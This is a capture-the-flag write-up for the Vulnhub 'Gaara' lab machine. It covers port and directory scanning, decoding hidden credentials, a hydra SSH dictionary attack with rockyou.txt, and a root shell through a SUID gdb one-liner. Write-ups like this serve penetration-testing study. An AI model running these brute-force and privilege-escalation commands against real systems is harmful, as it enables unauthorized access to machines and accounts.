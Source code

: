 ```yaml
---
layout: post
title: Writeup for Gaara machine form vulnhub
categories: [writeup]
tags: [vulnhub, Cryptographic failure, SUID, weak password]
---
```


**Machine** | [Gaara](https://www.vulnhub.com/entry/gaara-1,629/).
**Author** | [@0xJin](https://twitter.com/@0xJin)
**Vulnerability** | Sensitive data exposure/weak password.
**Explanation** | A ssh username was found on the website, and the password was easily cracked using rockyou.txt wordlist.
**Privilege Escalation Vulnerability** : SUID abuse (gdb).
**Explanation** | If a binary has the `SUID` bit set, it means that it will be run as it's owner which in our case `root`.

# Enumeration

## port scaning

Initial nmap scan revealed that we have two open ports:

* 80 : `Apache httpd 2.4.38 (Debian)`
* 22 : `OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)`

```
$ nmap -sV -sC -p80,22 192.168.56.102
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-30 12:14 EDT
Nmap scan report for 192.168.56.102
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.40 seconds
```

![](/assets/gaara/nmap.png)

## Web enum

Used `gobuster` and got one page

```
$ gobuster dir -u 192.168.56.102 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

![](/assets/gaara/gobuster.png)

Browsed to `http://192.168.56.102/Cryoserver` and got a page with three paths:

```
/Temari
/Kazekage
/iamGarra
```

![](/assets/gaara/cryoserver.png)

Browsed to `/iamGaara` and found an encoded text

```
f1MgN9mTf9SNbzRygcU
```

![](/assets/gaara/iamGaara.png)

I used `CyberChef` to decode it and got what looked like a username and password

```
gaara:ismyname
```

![](/assets/gaara/base58-decode.png)

I tried to login to ssh using this credentials but with no luck. The password is incorrect but we got a username.

# Initial Foothold

I used `hydra` to perform a dictionary attack on the ssh server using the username I found earlier `gaara`.

```
$ hydra -l gaara -P ~/rockyou.txt ssh://192.168.56.102 -t 4
```

![](/assets/gaara/hydra-ssh-gaara.png)

I got a password `iloveyou2`, which I used to ssh into the machine and get the user flag

![](/assets/gaara/gaara-shell.png)

# Privilege Escalation

In the home directory I found a text file `Kazekage.txt` containing a base64 encoded text, which I decoded and got a path `/usr/local/games`

```
$ cat Kazekage.txt
$ tail -n 1 Kazekage.txt | base64 -d && echo
```

> `echo` : to print a line break, only for readability.

![](/assets/gaara/decode-Kazekage-txt.png)

I changed directory to `/usr/local/games`, and found `.supersecret.txt` containing a code writen in `brainfuck` language.

```

Godaime Kazekage:

+++++ +++[- >++++ ++++< ]>+++ +.<++ ++++[ ->+++ +++<] >+.-- ---.< +++++
+++[- >---- ----< ]>--- -.<++ +++++ ++[-> +++++ ++++< ]>+++ +++++ .<+++
[->-- -<]>- .++++ ++.<+ +++++ +++[- >---- ----- <]>-- --.<+ +++++ +++[-
>++++ +++++ <]>+. <+++[ ->--- <]>-- --.-- --.<+ ++[-> +++<] >++.. <+++[
->+++ <]>++ ++.<+ +++++ +++[- >---- ----- <]>-- ----- -.<++ +++++ ++[->
+++++ ++++< ]>+++ .<+++ [->-- -<]>- --.+. +++++ .---. <++++ ++++[ ->---
----- <]>-- ----- ----. <++++ +++++ [->++ +++++ ++<]> +++++ +++.< +++[-
>---< ]>-.+ +++++ .<+++ +++++ +[->- ----- ---<] >---- .<+++ +++++ [->++
+++++ +<]>+ ++.<+ ++[-> +++<] >+++. +++++ +.--- ----- -.--- ----- .<+++
+++++ [->-- ----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++
+++.< +++[- >---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ ++[->
+++++ ++++< ]>++. ----. --.-- ----- -.<++ +[->+ ++<]> +++++ +.<++ +[->-
--<]> ---.+ .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- ----- .<+++
+++++ +[->+ +++++ +++<] >+++. <+++[ ->--- <]>-- -.--- ----. <++++ [->++
++<]> +++.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ ++[-> +++++ +++<]
>++++ +.--- -.<++ ++[-> ++++< ]>++. <+++[ ->--- <]>-. +++.< +++[- >+++<
]>+++ +.<++ +++++ [->-- ----- <]>-- ----- --.<+ ++++[ ->--- --<]> -----
-.<++ +++++ [->++ +++++ <]>++ +.<++ +++[- >++++ +<]>+ ++++. +++++ ++.<+
+++++ +++[- >---- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >++++ .<+++
++[-> +++++ <]>.< ++++[ ->+++ +<]>+ .<+++ [->-- -<]>- ----. +.<++ +[->+
++<]> ++++. <++++ +++++ [->-- ----- --<]> .<
```

![](/assets/gaara/supersecret-brainfuck.png)

I compiled it using an online compiler, but this was a dead end.

This file was to throw us off course, it is a nice try I might say.

![](/assets/gaara/brainfuck-compile.png.jpg)

After that, I looked for any binaries with `SUID` bit set and found an interesting one, which is `gdb`.

> According to [gtfobins](https://gtfobins.github.io/gtfobins/gdb/) `gdb` can be used to escalate our privileges if it has the `SUID` bit set.

![](/assets/gaara/suid-bins.png)

I used gdb to run bash as root

```
$ gdb -nx -ex 'python import os; os.execl("/bin/bash", "/bin/bash", "-p")'
```

![](/assets/gaara/root-shell.png)

Finally, I have rooted this machine and got the flag.
